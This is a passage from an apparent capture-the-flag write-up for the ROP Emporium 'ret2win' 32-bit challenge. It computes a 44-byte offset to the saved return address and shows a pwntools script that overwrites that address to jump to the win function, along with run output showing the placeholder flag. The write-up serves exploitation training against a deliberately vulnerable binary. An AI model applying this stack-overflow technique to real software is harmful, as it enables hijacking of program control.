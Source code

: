 ```
|  6C 61 61 61  | <====== return address
+---------------+
```

We can see that if we increment the `ebp` by 4, it will point to the saved return address.

Therefore the distance between the buffer and the saved return address is `offset+4` which is equal to 44.

### Exploit requirements

We now have all the information we need to create an exploit.

* [x] Address of `ret2win`: `0x0804862c`
* [x] Distance between the buffer and return address: `44`

### Exploit

```python
from pwn import *

padding = b"a"*44
ret2win_addr = p32(0x0804862c)

payload = padding + ret2win_addr

p = process('./ret2win32')
p.sendline(payload) 
p.interactive()
```

Let's run the exploit.

```
$ python exploit.py
[x] Starting local process './ret2win32'
[+] Starting local process './ret2win32': pid 35136
[*] Switching to interactive mode
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```
